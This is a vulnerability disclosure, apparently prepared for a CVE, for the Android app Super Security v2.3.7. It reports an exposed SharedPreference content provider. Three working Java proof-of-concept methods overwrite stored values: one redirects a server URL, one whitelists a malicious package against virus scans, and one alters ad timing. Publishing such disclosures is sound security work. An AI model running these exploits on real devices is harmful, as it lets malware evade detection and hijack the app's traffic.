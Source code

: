 ## Denial of Service exists in Super Secuirty

Vendor：DUALSPACE(http://www.dualspace.com/pc/en/products.html)

Affected product：Super Security  (com.ludashi.security)

Version：2.3.7

Download link：https://apkpure.com/cn/super-security-virus-cleaner/com.ludashi.security

Description of the vulnerability for use in the CVE：An issue found in DUALSPACE Super Secuirty v.2.3.7 allows an attacker to cause a denial of service via the SharedPreference files.

Additional information：The app is a security application that provides several security-related functions. Upon opening, the app loads the SharedPreference files into memory and uses the data in some important functions. If a malicious app modifies important data in the SharedPreference files, the Super Security app will not behave properly when loading this data. This can cause many security hazards, such as controlling the server URL the victim app is going to access (by modifying the key_wifi_safe_net_check_url field), allowing malicious apps to add themselves to the virus check whitelist (by modifying the KEY_VIRUS_SCAN_WHITELIST field), ad blocking (by modifying the key_ad_new_user_avoid_time field), and more. Even worse, users cannot fix the security issue by rebooting victim devices, since the injected data is persistent in the SharedPreference files.



1.Controlling the server URL the victim app is going to access:

poc：

```java
public void attack() {
    ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
    Uri uri = Uri.parse("content://com.ludashi.security.SharedPrefProvider");
    ContentValues contentValues = new ContentValues();
    contentValues.put("file_name","__default__");
    contentValues.put("type",4);
    contentValues.put("key","key_wifi_safe_net_check_url");
    contentValues.put("value","www.xxx.com");
    contentResolver.update(uri, contentValues,null,null);
}
```

<img src="CVE detail.assets/image-20230403194034307.png" alt="image-20230403194034307" style="zoom: 50%;" />

2.Allowing malicious apps to add themselves to the virus scan whitelist：

poc：

```java
public void attack() {
    ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
    Uri uri = Uri.parse("content://com.ludashi.security.SharedPrefProvider");
    ContentValues contentValues = new ContentValues();
    contentValues.put("file_name","__default__");
    contentValues.put("type",4);
    contentValues.put("key","KEY_VIRUS_SCAN_WHITELIST");
    contentValues.put("value","xxx.packagename");
    contentResolver.update(uri, contentValues,null,null);
}
```

KEY_VIRUS_SCAN_WHITELIST field：

![image-20230404134921229](CVE detail.assets/image-20230404134921229.png)

3.ad blocking

poc：

```java
public void attack() {
    ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
    Uri uri = Uri.parse("content://com.ludashi.security.SharedPrefProvider");
    ContentValues contentValues = new ContentValues();
    contentValues.put("file_name","__default__");
    contentValues.put("type",2);
    contentValues.put("key","key_ad_new_user_avoid_time");
    contentValues.put("value","100000");
    contentResolver.update(uri, contentValues,null,null);
}
```

key_ad_new_user_avoid_time field：

![image-20230404135013298](CVE detail.assets/image-20230404135013298.png)